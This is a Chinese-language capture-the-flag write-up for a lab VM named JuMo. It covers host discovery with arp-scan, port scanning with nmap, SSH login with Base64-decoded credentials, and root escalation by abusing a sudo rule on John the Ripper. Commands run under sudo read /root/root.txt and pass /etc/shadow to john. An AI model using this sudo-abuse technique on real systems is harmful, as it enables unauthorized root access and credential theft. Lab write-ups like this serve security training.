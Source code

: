 # 1. 简介

- 靶机名称: JuMo (未发布，内部测试靶机，可能后续发布于 HackMyVm)
- 难度: 低 (Low)
- 目标 IP: 192.168.205.182 (通过 arp-scan 发现)
- 攻击机 IP: 192.168.205.128
- 目标: 获取目标系统的 root 权限并找到 flag。

# 2. 信息收集 (Enumeration)

## 2.1. 主机发现

首先，使用 arp-scan 在本地网络中发现目标主机的 IP 地址。

```bash
┌──(kali㉿kali)-[~/test]
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:64:60:b9, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
# ... (其他输出) ...
192.168.205.182 08:00:27:ff:bf:ce       PCS Systemtechnik GmbH #<-- 目标主机
# ... (其他输出) ...
Ending arp-scan 1.10.0: 256 hosts scanned in 2.033 seconds (125.92 hosts/sec). 4 responded
```

确认目标 IP 为 192.168.205.182。

## 2.2. 端口扫描

使用 nmap 对目标主机进行全端口扫描，以识别开放的服务。

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -p- 192.168.205.182
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 08:46 CST
Nmap scan report for 192.168.205.182
Host is up (0.00022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh     #<-- SSH 服务开放
80/tcp open  http    #<-- HTTP 服务开放
MAC Address: 08:00:27:FF:BF:CE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

扫描结果显示目标开放了 22 (SSH) 和 80 (HTTP) 端口。

# 3. 获取初始访问权限 (Initial Foothold)

## 3.1. Web 服务探测

访问目标主机的 80 端口（ http://192.168.205.182 ）。

![image-20250411084817446](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411084824566.png)

这个提示我们在 hackmyvm 平台上查找一个名为 check 的用户。

## 3.2. 信息挖掘

在 HackMyVm 网站上搜索用户 check。

![image-20250411085044849](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411085044939.png)

找到了该用户的个人资料，其中包含一个外部链接。访问该链接：

![image-20250411085314126](https://hub.gitmirror.com/https://github.com/7r1UMPH/7r1UMPH.github.io/blob/main//static/image/20250411085314150.png)

页面上有一串 Base64 编码的字符串 d2VsY29tZTpqdW1v。对其进行解码：

```bash
┌──(kali㉿kali)-[~/test]
└─$ echo 'd2VsY29tZTpqdW1v' | base64 -d
welcome:jumo
```

解码后得到 welcome:jumo，这很可能是一对 SSH 登录凭据（用户名:密码）。

## 3.3. SSH 登录

使用获取到的凭据尝试 SSH 登录：

```bash
┌──(kali㉿kali)-[~/test]
└─$ ssh welcome@192.168.205.182
# ...(SSH 连接确认)...
Password: # 输入密码 jumo
Linux JuMo 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
# ... (欢迎信息) ...
welcome@JuMo:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功以 welcome 用户身份登录系统。

# 4. 权限提升 (Privilege Escalation)

## 4.1. Sudo 权限检查

检查 welcome 用户拥有的 sudo 权限：

```bash
welcome@JuMo:~$ sudo -l
Matching Defaults entries for welcome on JuMo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on JuMo:
    (ALL : ALL) NOPASSWD: /usr/sbin/john   #<-- 可以免密以 root 权限执行 john
```

输出显示 welcome 用户可以无需密码 (NOPASSWD) 以任何用户 (ALL:ALL) 的身份执行 /usr/sbin/john 命令。john (John the Ripper) 是一个密码破解工具。

## 4.2. 利用 Sudo 权限

由于可以以 root 身份执行 john，并且 /root 目录下的文件通常只有 root 用户可读，我们可以尝试利用 john 读取 /root 目录下的文件。

### 方法一：直接读取可能的 Flag 文件 (我的方法)

已知 /root/root.txt 包含了 flag。虽然 john 的 --wordlist 选项通常用于指定密码字典，但配合 --stdout 选项，john 会将 wordlist 的内容（或生成的候选密码）打印到标准输出。利用 sudo 权限，这可以用来读取 root 权限才能访问的文件内容。

```bash
welcome@JuMo:~$ sudo /usr/sbin/john --wordlist=/root/root.txt --stdout
Press 'q' or Ctrl-C to abort, almost any other key for status
flag{521ca933d6e159a50c2c04e7daa930f6}  #<-- 读取并输出了 /root/root.txt 的内容
1p 0:00:00:00 100% 100.0p/s flag{521ca933d6e159a50c2c04e7daa930f6}
```

此命令成功读取了 /root/root.txt 文件，内容即为 flag。

### 方法二：读取可能的 Flag 文件 (ta0神的方法)

```bash
welcome@JuMo:~$ sudo /usr/sbin/john /etc/shadow --wordlist=/root/root.txt
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 100% 0g/s 100.0p/s 200.0c/s 200.0C/s flag{521ca933d6e159a50c2c04e7daa930f6} 
Session completed
```

## 4.3. 获取 Root 权限

根据群主提示我们可知root密码为root flag

```bash
welcome@JuMo:~$ su -
Password: # 输入 521ca933d6e159a50c2c04e7daa930f6
root@JuMo:~# id
uid=0(root) gid=0(root) groups=0(root)
root@JuMo:~# cat /root/root.txt
flag{521ca933d6e159a50c2c04e7daa930f6}
```

成功获取 root 权限。最终的 flag 存储在 /root/root.txt 中。

# 5. 总结

本次渗透测试通过以下步骤完成：

1. 信息收集: 使用 arp-scan 和 nmap 发现目标主机及其开放的 SSH 和 HTTP 服务。
2. 初始访问: 分析网页源代码，发现指向 HackMyVm 用户 check 的线索，进而找到其外部链接中的 Base64 编码凭据，成功通过 SSH 登录 welcome 用户。
3. 权限提升: 发现 welcome 用户可通过 sudo 免密执行 john 命令。利用此权限，通过 john --wordlist=/root/root.txt --stdout 直接读取了 /root/root.txt 中的 flag，或者通过 john /etc/shadow --wordlist=/root/root.txt 破解出 root 密码（密码恰好是 flag），最终使用 su 命令切换到 root 用户。

靶机设计巧妙，利用了信息泄露和 sudo 配置不当的漏洞，难度符合 Low 级别。